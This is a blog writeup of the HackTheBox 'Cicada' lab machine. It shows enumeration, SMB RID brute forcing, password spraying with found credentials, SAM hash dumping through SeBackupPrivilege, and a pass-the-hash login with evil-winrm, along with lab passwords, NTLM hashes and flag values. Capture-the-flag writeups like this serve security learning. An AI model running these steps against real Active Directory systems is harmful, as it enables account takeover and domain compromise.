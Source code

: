 ```yaml
---
layout: post
title: "HackTheBox: Cicada - Writeup 01/10/2024"
description: A writeup for Hackthebox Cicada
date:   2024-10-01 12:06:31 +0000
image:  '/images/post/cicada.jpg'
tags:   [Hackthebox]
---
```

## Setup
`mkdir -p ~/ctf/HackTheBox/cicada/scans; cd ~/ctf/HackTheBox/cicada`
IP Address: 10.10.11.35


`echo "10.10.11.35 cicada.htb" | sudo tee -a /etc/hosts`
10.10.11.35 cicada.htb

***
### Enumeration 

`nmap -sC -sV -Pn -p- cicada.htb -oN scans/nmap -vv`
`nmap -sC -sV -p- -T5 --min-rate 2500 -oN scans/nmap_2 cicada.htb`
```
# nmap findings


PORT      STATE SERVICE        REASON
53/tcp    open  domain         syn-ack
88/tcp    open  kerberos-sec   syn-ack
135/tcp   open  msrpc          syn-ack
139/tcp   open  netbios-ssn    syn-ack
389/tcp   open  ldap           syn-ack
445/tcp   open  microsoft-ds   syn-ack
464/tcp   open  kpasswd5       syn-ack
593/tcp   open  http-rpc-epmap syn-ack
636/tcp   open  ldapssl        syn-ack
5985/tcp  open  wsman          syn-ack
50767/tcp open  unknown        syn-ack

```



Found Note from HR.txt in SMB guest share 
```

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp

```

Using RID/ SID Brute forcing we get the following 
`lookupsid.py guest@10.10.11.35 -no-pass`
`crackmapexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute
`
```


Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at 10.10.11.35
[*] StringBinding ncacn_np:10.10.11.35[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-917908876-1423158569-3159038727
498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: CICADA\Administrator (SidTypeUser)
501: CICADA\Guest (SidTypeUser)
502: CICADA\krbtgt (SidTypeUser)
512: CICADA\Domain Admins (SidTypeGroup)
513: CICADA\Domain Users (SidTypeGroup)
514: CICADA\Domain Guests (SidTypeGroup)
515: CICADA\Domain Computers (SidTypeGroup)
516: CICADA\Domain Controllers (SidTypeGroup)
517: CICADA\Cert Publishers (SidTypeAlias)
518: CICADA\Schema Admins (SidTypeGroup)
519: CICADA\Enterprise Admins (SidTypeGroup)
520: CICADA\Group Policy Creator Owners (SidTypeGroup)
521: CICADA\Read-only Domain Controllers (SidTypeGroup)
522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
525: CICADA\Protected Users (SidTypeGroup)
526: CICADA\Key Admins (SidTypeGroup)
527: CICADA\Enterprise Key Admins (SidTypeGroup)
553: CICADA\RAS and IAS Servers (SidTypeAlias)
571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
1000: CICADA\CICADA-DC$ (SidTypeUser)
1101: CICADA\DnsAdmins (SidTypeAlias)
1102: CICADA\DnsUpdateProxy (SidTypeGroup)
1103: CICADA\Groups (SidTypeGroup)
1104: CICADA\john.smoulder (SidTypeUser)
1105: CICADA\sarah.dantelia (SidTypeUser)
1106: CICADA\michael.wrightson (SidTypeUser)
1108: CICADA\david.orelious (SidTypeUser)
1109: CICADA\Dev Support (SidTypeGroup)
1601: CICADA\emily.oscars (SidTypeUser)
```

```
User list:
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```
using crackmapexec we get `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`

![a3dc4c40b6f42502459af7e6395c1254.png]({{site.baseurl}}/images/post/a3dc4c40b6f42502459af7e6395c1254.png)

we get another password from description
`david.orelious:aRt$Lp#7t*VQ!3`


We get access to dev share 
![34441f2039f6b63a54906459f729cc07.png]({{site.baseurl}}/images/post/34441f2039f6b63a54906459f729cc07.png)

in dev share we find password for emily.oscars
![a657aa4feeb1cc95ddea85677ba42e46.png]({{site.baseurl}}/images/post/a657aa4feeb1cc95ddea85677ba42e46.png)

`emily.oscars:Q!3@Lp#M6b*7t*Vt`


***
# user flag
Location: C:\Users\emily.oscars.CICADA\Desktop | Flag: e83a7cc211031524c13a199fa637d0b1
```

***
#### Privilege Escalation

```

using assigned privileges we use **SeBackupPrivilege**
![dac3b5623835eb4b5f326cc61c9692a4.png]({{site.baseurl}}/images/post/dac3b5623835eb4b5f326cc61c9692a4.png)
![f64d2c81ec0ab99f35e7378c710d136b.png]({{site.baseurl}}/images/post/f64d2c81ec0ab99f35e7378c710d136b.png)
![f6bf22feda995b69a53d929da6340581.png]({{site.baseurl}}/images/post/f6bf22feda995b69a53d929da6340581.png)
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```

using Pass-the-hash `evil-winrm -i 10.10.11.35 -u 'administrator' -H '2b87e7c93a3e8a0ea4a581937016f341' 
`


# root flag
Location: :\Users\Administrator\Desktop | Flag: b1dc73a0bb9e94681e494c80388d99f3
```

```